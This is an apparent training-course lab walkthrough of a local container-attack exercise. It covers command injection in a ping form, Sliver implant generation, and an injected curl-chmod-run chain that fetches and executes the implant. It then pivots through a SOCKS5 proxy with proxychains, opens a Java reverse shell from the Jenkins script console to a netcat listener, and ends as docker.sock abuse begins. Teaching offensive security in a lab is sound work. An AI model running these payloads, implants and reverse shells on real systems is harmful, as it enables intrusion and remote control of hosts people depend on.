






Containers Lab
Current Status
Brief Intro
This is a very lengthy lab, but this lab will be critical as we talk about orchestrating containers. It is all done locally but these tactics can be used in any manner. This lab will have you perform the following attacks.
- Leverage sliver to gain access to internal system shells.
- Use the shell to proxy through different internal containers using ProxyChains and Socks5 proxies.
- Leverage docker.sock to start a privileged container on the system itself.
This lab is self contained and shows you how to walk through not all of the potential docker attacks but many of them.
Danger
This lab has you running several docker containers of which memory will be an issue. You may wish at this point to shut down your machine and boost the memory of the Virtual Machine from 2GB or 4GB of RAM.
Requirements for This Lab
There are not special requirements for this lab. This lab can be done completely offline.
Try It Yourself
The following are step-by-step instructions to extract the virtual machine and gain familiarity with the tools used in the class.
- Open up several terminals (you will need 4 with the VPN)
- Use the vulnapp to get a sliver shell
- Portscan through the sliver shell using nabuu and proxychains
- Get onto the Jenkins Server
- Once you are in the Jenkins Server get onto that container through the groovy shell functions
- Execute a new container through the docker.sock
Walkthrough
Docker: Assessing newer technologies
-
To get started, you must have a minimum of three (3) terminals for this lab. The exercises in this lab will use new terminal windows. You can either use tabs or new terminal windows.
Open a MATE Terminal Window by double-clicking on the MATE icon.
-
You should have three additional terminals that we will now set the name for below
-
Terminal 2 | Set Title
Set the title to python
-
Terminal 3 | Set Title
Set the title to working
-
Terminal | Set Title
Set the title to sliver
Note
You can also open a terminal by pressing Ctrl+Alt+T
-
-
Now let's bring up all our docker containers. From the working container.
Danger
Please note that this step takes up to 5 minutes to fully load the containers. The more resources you give you system the faster it will run.
Command lines
cd /opt/dockerlabs/lab6Command lines
docker compose up -dExpected Results
sec588@slingshot ~ $ cd /opt/dockerlabs/lab6 sec588@slingshot /opt/dockerlabs/lab6 $ docker compose up -d [+] Building 0.0s (0/0) [+] Running 11/11 ✔ Network npm-networking Created 0.2s ✔ Container vulnapp Started 4.4s ✔ Container dozzle Started 3.6s ✔ Container jenkins Started 4.3s ✔ Container bukuserver Started 3.9s ✔ Container redis Started 3.8s ✔ Container uptime-kuma Started 4.3s ✔ Container portainer Started 3.8s ✔ Container heimdall Started 4.3s ✔ Container db Started 4.1s ✔ Container npm Started 6.1s sec588@slingshot /opt/dockerlabs/lab6 $ -
To look at our localized containers, let's start with one called "Heimdall".
Command lines
firefox http://heimdall.local:8888 &Note
The process id below of 12345 will be different for each student
Expected Results
sec588:slingshot:workdir$ firefox http://heimdall.local:8888 & [1] 12345 -
Heimdall is a dashboard where the administrators can hold several links. Think of it as a lovely home dashboard with additional integrations. Providing Heimdall with logins will populate the data in the dashboard for you in a preview window. For example, Jenkins runs jobs or containers that Portainer is managing.
We are going to click on the vulnlab button.

Once you have clicked on this Vulnapp Dashboard Widget, you will be taken to the "Vulnerable Application Server".
-
Once you are in the Vulnerable Application, you can see a simple "ping application" with a form. Let's validate that this application is "vulnerable."
Notice that in the web application form, we will type the following value and hit enter:
Form Input
127.0.0.1Expected Results

Now let's add additional Linux commands to validate the actual bug. The
idcommand would be a command that we could run.Form Input
127.0.0.1;idExpected Results

Did you notice the output? Let's try it from the command line to analyze better what is occurring. Switch back to the MATE Terminal.
-
Run the following curl command within the MATE Terminal.
Note
Do this from the working Terminal Window
Command Lines
curl "http://vulnapp.local:8000/ping.php?form_submitted=1&ping=127.0.0.1%3Bid"Expected Results
sec588:slingshot:~$ curl "http://vulnapp.local:8000/ping.php?form_submitted=1&ping=127.0.0.1%3Bid" <html> <head> </head> <script> function encode() { const str = document.getElemntById("ping").value; console.log(str) return str; } </script> <form class="form-inline" action="" method="GET"> <label for="ping">What do you want to ping?</label> <input type="ping" id="ping" placeholder="127.0.0.1" name="ping"> <input type="hidden" name="form_submitted" value="1" /> <button type="submit">Submit</button> </form> <pre> Running ping -c 2 127.0.0.1;id: PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.027 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.036 ms --- 127.0.0.1 ping statistics --- 2 packets transmitted, 2 received, 0% packet loss, time 1031ms rtt min/avg/max/mdev = 0.027/0.031/0.036/0.004 ms uid=33(www-data) gid=33(www-data) groups=33(www-data) Done Running </pre> </html>Look at what is occurring here:
- The command that is run is going to be reflected as:
ping -c 2 127.0.0.1;id - The command output is reflected below starting with:
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. - After the ping command, we see the output of:
uid=33(www-data) gid=33(www-data) groups=33(www-data)denoting command injection
Bonus: There is also XSS on this page as the command is being reflected on the page without sanitization, and you are in control of the command.
- The command that is run is going to be reflected as:
-
You may have noticed that this container runs the Apache process as www-data, typically uid/gid 33 on Debian. Given that we are not root, we may be limited in what we can do on this device. We can, however, execute commands; let us see how we can get access to the container without using docker commands. The first thing we will want to do is start a "sliver" server instance.
First, we must extract the IP Address from the machine to run this attack.
Note
Do this from the working Terminal Window
Command Lines
ip addr show eth0Danger
The IP address for this VM at the time of this writing is 192.168.4.9. Yours will be different. Please note this address as you will need it several times.
Expected Results
sec588:slingshot:workdir$ ip addr show eth0 2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000 link/ether 00:0c:29:b8:1a:a7 brd ff:ff:ff:ff:ff:ff altname enp2s1 altname ens33 inet 192.168.4.9/24 metric 100 brd 192.168.4.255 scope global dynamic eth0 valid_lft 3587sec preferred_lft 3587secWe can store this value in a variable for use later.
Command lines
IP=$(ip addr show eth0 | grep inet | awk '{ print $2 }' | awk -F/ '{ print $1 }')Command lines
echo $IPExpected Results
sec588:slingshot:workdir$ $ IP=$(ip addr show eth0 | grep inet | awk '{ print $2 }' | awk -F/ '{ print $1 }') sec588:slingshot:workdir$ $ echo $IP 192.168.4.9Next, we will run a Sliver and generate our implant. Please open a New MATE Terminal Window. We will call this window Sliver and this will be the Window name we refer to.
Note
You can also open a terminal by pressing Ctrl+Alt+T. Using the
Terminal | Set Title ...of the menu call this window Sliver.Danger
Please note that generating a sliver implant may take a long time and will also place the implant in the directory from which you ran
sliver. For us, that directory will be/home/sec588/Coursefiles/workdirCommand Lines
cd /home/sec588/Coursefiles/workdirCommand Lines
sudo systemctl start sliverCommand Lines
sliverCommand Lines
mtls -l 9999Command Lines
generate --os linux --mtls 192.168.4.9:9999 --skip-symbolsExpected Results
sec588:slingshot:~$ cd /home/sec588/Coursefiles/workdir sec588:slingshot:workdir$ sudo systemctl start sliver sec588:slingshot:workdir$ sliver Connecting to localhost:31337 ... ███████╗██╗ ██╗██╗ ██╗███████╗██████╗ ██╔════╝██║ ██║██║ ██║██╔════╝██╔══██╗ ███████╗██║ ██║██║ ██║█████╗ ██████╔╝ ╚════██║██║ ██║╚██╗ ██╔╝██╔══╝ ██╔══██╗ ███████║███████╗██║ ╚████╔╝ ███████╗██║ ██║ ╚══════╝╚══════╝╚═╝ ╚═══╝ ╚══════╝╚═╝ ╚═╝ All hackers gain skulk [*] Server v1.5.35 - 1756fdfb62eb21346a3149fa34af127e34d4b799 [*] Welcome to the sliver shell, please type 'help' for options [*] Check for updates with the 'update' command sliver > mtls -l 9999 [*] Starting mTLS :9999 listener ... [*] Successfully started job #1 sliver > generate --os linux --mtls 192.168.4.9:9999 --skip-symbols [*] Generating new linux/amd64 implant binary [*] Symbol obfuscation is disabled [*] Build completed in 1m5s [*] Implant saved to /home/sec588/Coursefiles/workdir/PROPOSED_DECREASE sliver >Note
You may have realized that every Sliver implant, if not directed with a specific name, will have an upper cased implant name that will look oddly similar to specific threat actors.
This is a
gobased binary implant that does not require any dependencies; we can serve it up and upload it to the container if we want. Let's usepythonto do this. The name of the binary that we created is PROPOSED_DECREASE in the workbook. But on your system your binary will have a completely different name. Just be sure you are aware of this.Let's rename the binary so that we can make all the lab steps a bit easier for us to provide.
Note
In the value below replace the word PROPOSED_DECREASE with the name of you binary.
Command Lines
BIN="PROPOSED_DECREASE"Command Lines
mv /home/sec588/Coursefiles/workdir/$BIN /home/sec588/Coursefiles/workdir/nginxExpected Results
BIN="PROPOSED_DECREASE" -
Use the python MATE window to serve the implant with
python.Note
You can also open a terminal by pressing Ctrl+Alt+T. Using the
Terminal | Set Title ...of the menu call this windowPython.Command Lines
cd /home/sec588/Coursefiles/workdirCommand Lines
python3 -m 'http.server' 9998Expected Results
sec588:slingshot:workdir$ python3 -m 'http.server' 9998 Serving HTTP on 0.0.0.0 port 9998 (http://0.0.0.0:9998/) ... -
What we need to know is how to move this file; you may have a few options.
curl,wget, or simplync.Note
Do this from the working window
Command Lines
curl "http://vulnapp.local:8000/ping.php?form_submitted=1&ping=127.0.0.1%3Bwhich+curl"Expected Results
sec588:slingshot:~$ curl "http://vulnapp.local:8000/ping.php?form_submitted=1&ping=127.0.0.1%3Bwhich+curl" <html> <head> </head> <script> function encode() { const str = document.getElemntById("ping").value; console.log(str) return str; } </script> <form class="form-inline" action="" method="GET"> <label for="ping">What do you want to ping?</label> <input type="ping" id="ping" placeholder="127.0.0.1" name="ping"> <input type="hidden" name="form_submitted" value="1" /> <button type="submit">Submit</button> </form> <pre> Running ping -c 2 127.0.0.1;id: PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.027 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.036 ms --- 127.0.0.1 ping statistics --- 2 packets transmitted, 2 received, 0% packet loss, time 1031ms rtt min/avg/max/mdev = 0.027/0.031/0.036/0.004 ms /usr/bin/curl Done Running </pre> </html> -
We have the
curlbinary. Let's move the binary over the container and run it in a directory allowing us to execute commands, for example,/tmp. We also want to make the binary executable and execute it.Tip
Defender tip: Do you need this many binaries in a container?
Note
This particular lab step will require a few things that you will need to be aware of. + Do this from the working window + Remember to do this with the IP address of your host, you will need to change it in several places, the one we highlight is 192.168.4.9 which is not necessarily yours. + If you did this correctly, the output of $IP will reflect your IP.
Command Lines
echo $IPCommand Lines
curl "http://vulnapp.local:8000/ping.php?form_submitted=1&ping=127.0.0.1%3Bcurl+http://$IP:9998/nginx+--output+/tmp/nginx%3Bchmod+777+/tmp/nginx%3B/tmp/nginx%26"Expected Results
sec588:slingshot:workdir$ curl curl "http://vulnapp.local:8000/ping.php?form_submitted=1&ping=127.0.0.1%3Bcurl+http://$IP:9998/nginx+--output+/tmp/nginx%3Bchmod+777+/tmp/nginx%3B/tmp/nginx%26"<html> <head> </head> <script> function encode() { const str = document.getElemntById("ping").value; console.log(str) return str; } </script> <form class="form-inline" action="" method="GET"> <label for="ping">What do you want to ping?</label> <input type="ping" id="ping" placeholder="127.0.0.1" name="ping"> <input type="hidden" name="form_submitted" value="1" /> <button type="submit">Submit</button> </form> <pre> Running ping -c 2 127.0.0.1;curl http://192.168.4.9:9998/nginx --output /tmp/nginx;chmod 777 /tmp/nginx;/tmp/nginx&: PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.043 ms 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.097 ms --- 127.0.0.1 ping statistics --- 2 packets transmitted, 2 received, 0% packet loss, time 1008ms rtt min/avg/max/mdev = 0.043/0.070/0.097/0.027 msIn the
sliverwindow you should see a new connected session. For example:[*] Session 0c2551db PROPOSED_DECREASE - 172.18.0.4:37186 (2756fe0bb429) - linux/amd64 - Tue, 27 Jun 2023 23:24:36 UTC -
To interact with Sliver Sessions you need to use the
usecommand. Sliver only shows the first 8 characters of the session ID and not the entire GUID. You can use tab completion to resolve it.Note
To use tab completion use the Tab key. Additional note is that each and every Session ID is unique such that in our example
0c2551dbwill be different from your example.Note
Do this from within
sliverin thesliverWindow.Command Lines
use 0c2551dTabExpected Results
console sliver > use 0c2551db-9382-41f0-ac1f-42ceea6f09d3Let's now look at the file system so you can see our binary, we can do this with
sliverwithout needing an interactive shell.Command Lines
ls /tmpExpected Results
sliver (PROPOSED_DECREASE) > ls /tmp /tmp (2 items, 29.5 MiB) ======================== -rwxrwxrwx nginx 14.6 MiB Tue Jun 27 23:24:36 +0000 2023We may also want to see Environment Variables that can give us hints to other systems. In many systems environment variables will give us:
- Other targets that are in the same system
- Authentication Key Material
- Database or other types of credentials with locations
Let's use the built in
envcommand insliverto see the environment variables on the container.Command Lines
envExtracted Results
sliver (PROPOSED_DECREASE) > env HOSTNAME=2756fe0bb429 PHP_VERSION=8.2.7 APACHE_CONFDIR=/etc/apache2 PHP_INI_DIR=/usr/local/etc/php GPG_KEYS=39B641343D8C104B2B146DC3F9C39DC0B9698544 E60913E4DF209907D8E30D96659A97C9CF2A795A 1198C0117593497A5EC5C199286AF1F9897469DC PHP_LDFLAGS=-Wl,-O1 -pie PWD=/var/www/html APACHE_LOG_DIR=/var/log/apache2 LANG=C PHP_SHA256=4b9fb3dcd7184fe7582d7e44544ec7c5153852a2528de3b6754791258ffbdfa0 APACHE_PID_FILE=/var/run/apache2/apache2.pid PHPIZE_DEPS=autoconf dpkg-dev file g++ gcc libc-dev make pkg-config re2c PHP_URL=https://www.php.net/distributions/php-8.2.7.tar.xz APACHE_RUN_GROUP=www-data APACHE_LOCK_DIR=/var/lock/apache2 SHLVL=1 PHP_CFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64 APACHE_RUN_DIR=/var/run/apache2 APACHE_ENVVARS=/etc/apache2/envvars APACHE_RUN_USER=www-data PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin PHP_ASC_URL=https://www.php.net/distributions/php-8.2.7.tar.xz.asc PHP_CPPFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64 _=/usr/bin/env -
The
sliversystem also has asocks5proxy that we can use to pivot to other hosts on the system. To do this we need to start thesocks5proxy and we will then configureproxychainsto perform the connectivity between a localhost and the remote system.Command Lines
socks5 startExpected Results
sliver (PROPOSED_DECREASE) > socks5 start [*] Started SOCKS5 127.0.0.1 1081 ⚠️ In-band SOCKS proxies can be a little unstable depending on protocolStart a new Window called Working2 as your original Working window will be frozen with the sliver implant. From Working2 run the following commands.
Note
In some cases your docker network may not be 172.18.0.0/24. You can check with the command injection we have in teh vulnerable web server. Try injecting a command like
hostname -I!Command Lines
proxychains naabu -host 172.18.0.0/24 -port 80,8000,8080,50000,9000,5001,443,3001,6379Expected Results
sec588:slingshot:/$ proxychains naabu -host 172.18.0.0/24 -port 80,8000,8080,50000,9000,5001,443,3001,6379 [proxychains] config file found: /etc/proxychains4.conf [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4 [proxychains] DLL init: proxychains-ng 4.16 __ ___ ___ ___ _/ / __ __ / _ \/ _ \/ _ \/ _ \/ // / /_//_/\_,_/\_,_/_.__/\_,_/ projectdiscovery.io [INF] Current naabu version 2.1.6 (latest) [INF] Running CONNECT scan with non root privileges [INF] Found 2 ports on host 172.18.0.5 (172.18.0.5) 172.18.0.5:8000 172.18.0.5:9000 [INF] Found 1 ports on host 172.18.0.8 (172.18.0.8) 172.18.0.8:5001 [INF] Found 1 ports on host 172.18.0.2 (172.18.0.2) 172.18.0.2:8080 [INF] Found 2 ports on host 172.18.0.11 (172.18.0.11) 172.18.0.11:443 172.18.0.11:80 [INF] Found 3 ports on host 172.18.0.1 (172.18.0.1) 172.18.0.1:8000 172.18.0.1:80 172.18.0.1:443 [INF] Found 1 ports on host 172.18.0.4 (172.18.0.4) 172.18.0.4:80 [INF] Found 2 ports on host 172.18.0.7 (172.18.0.7) 172.18.0.7:80 172.18.0.7:443 [INF] Found 2 ports on host 172.18.0.3 (172.18.0.3) 172.18.0.3:50000 172.18.0.3:8080 [INF] Found 1 ports on host 172.18.0.9 (172.18.0.9) 172.18.0.9:6379 [INF] Found 1 ports on host 172.18.0.10 (172.18.0.10) 172.18.0.10:3001 -
We can use a wordlist to do DNS enumeration from within the cluster environment, but instead let's do a slightly different manuver. Instead what we are going to do is use curl since we know some of these names. We could use
http://ip:portbut to expedite things, let's use a simplejenkins:8080.Command Lines
proxychains curl http://jenkins:8080Expected Results
sec588:slingshot:/$ proxychains curl http://jenkins:8080 [proxychains] config file found: /etc/proxychains4.conf [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4 [proxychains] DLL init: proxychains-ng 4.16 [proxychains] Strict chain ... 127.0.0.1:1081 ... jenkins:8080 ... OK <html><head><meta http-equiv='refresh' content='1;url=/login?from=%2F'/><script>window.location.replace('/login?from=%2F');</script></head><body style='background-color:white; color:white;'> Authentication required <!-- --> </body></html>Interestingly enough, what we have is
jenkinsand we also have a url to login. Most of the newerjenkinssystems will have this. We could use a password bruteforcing tool such as BurpSuite to go after this system. -
Jenkins is an interesting target when it is within a container. How can
jenkinsproduce a container when jenkins itself is in a container? This process is calleddockerindockerand it introduces a new vulnerability. The vulnerability is that thedocker.sockis now exposed from within a container. Mostdocker.socksockets are not secured by any authentication making this a very interesting target. Recall some of the vulnerabilities.docker.sockhas no authentication- Docker's daemon process is running as root, any container executed can have full root permissions on the box
- An attacker can abuse this to gain full root access on a host
The login to this system would need to be bruteforce in order to obtain access. Password Bruteforcing with tools like Burp are something we do quite often, instead let's focus on the attack vector. To login into Jenkins use the following username and password:
- Username: sec588
- Password: slingshotslingshot
Note
Remember the IP address here has to change from the IP Address listed to the IP address of your VM.
Command lines
firefox "http://jenkins.local:8000/login?from=%2Fmanage%2Fscript"
Note
Please make note that sometimes when you login the redirect takes you to the wrong place, for example:

Change the URL at the top to http://jenkins.local:8000/manage/script to see the page:

-
Open another Terminal, this terminal will be another
Shell Catcherwhere we can use a netcat listener. Let's call this WindowShell Catcher.Note
You can also open a terminal by pressing Ctrl+Alt+T. Using the
Terminal | Set Title ...of the menu call this windowShell Catcher.Command lines
nc -vnlp 9997Expected Results
sec588:slingshot:~$ nc -nvlp 9997 Listening on 0.0.0.0 9997Now modify this below to reflect your IP address. The script below was created by Chris Frohoff and can be found on Github
Form
String host="192.168.4.9"; int port=9997; String cmd="/bin/bash"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
Once you click run, return to the screen that has the nc and see if you see a message that says Connection Received.
Danger
If you run the
idcommand after you see theConnection receivedbanner you should be able to run commands. A rawnetcatshell like this does not reflect a prompt and this may confuse you. -
Let's now upgrade our shell by using
sliverto get more access to the host. To do this we can run the following commands below to do this. Do this from the new shell you got.Danger
Remember to change the IP address below to reflect your host IP.
Tip
Do this from the
Shell CatcherWindowCommand lines
export IP=192.168.4.9Command lines
curl http://${IP}:9998/nginx --output /tmp/nginx;chmod 777 /tmp/nginx;/tmp/nginx &At this point we should have a new shell from
sliverin our example, recall each one is unique, so our example will be different from yours.Before leaving this window. Hit Ctrl+C and stop the
ncprocess. We will then need to restart it, as we will be receiving a new shell soon.Command lines
nc -nvlp 9997Example Results
sec588@slingshot ~/Coursefiles/workdir $ nc -nvlp 9997 Listening on 0.0.0.0 9997 Connection received on 172.18.0.7 41956 id uid=0(root) gid=0(root) groups=0(root) export IP=192.168.4.9 curl http://${IP}:9998/nginx --output /tmp/nginx;chmod 777 /tmp/nginx;/tmp/nginx & % Total % Received % Xferd Average Speed Time Time Time Current Dload Upload Total Spent Left Speed 100 14.8M 100 14.8M 0 0 25.5M 0 --:--:-- --:--:-- --:--:-- 25.5M ^C sec588@slingshot ~/Coursefiles/workdir $ nc -nvlp 9997 Listening on 0.0.0.0 9997 -
In
sliversession we should have a new sessions that denoted by the string below. We can interact with the system with theusecommand just like before.[*] Session abcfdd98 PROPOSED_DECREASE - 192.168.4.205:58670 (0222610d7c9e) - linux/amd64 - Wed, 28 Jun 2023 01:04:31 UTCCommand lines
bash use abcfdTabExpected Results
```console sliver (PROPOSED_DECREASE) > use abcfdd98-7e1b-4b9a-8454-14cf479aa180
[*] Active session PROPOSED_DECREASE (abcfdd98-7e1b-4b9a-8454-14cf479aa180) ```
Now let's use the
lscommand to make sure our implant is working correctly.Command lines
lsExpected Results
sliver (PROPOSED_DECREASE) > ls /tmp (4 items, 17.9 MiB) ======================== drwxr-xr-x hsperfdata_root <dir> Wed Jun 28 00:48:45 +0000 2023 drwx------ jetty-0_0_0_0-8080-war-_-any-1577770271696201865 <dir> Wed Jun 28 00:48:47 +0000 2023 -rwxrwxrwx nginx 14.6 MiB Wed Jun 28 01:04:31 +0000 2023 -rw-r--r-- winstone7225790913945196749.jar 3.2 MiB Wed Jun 28 00:48:46 +0000 2023 -
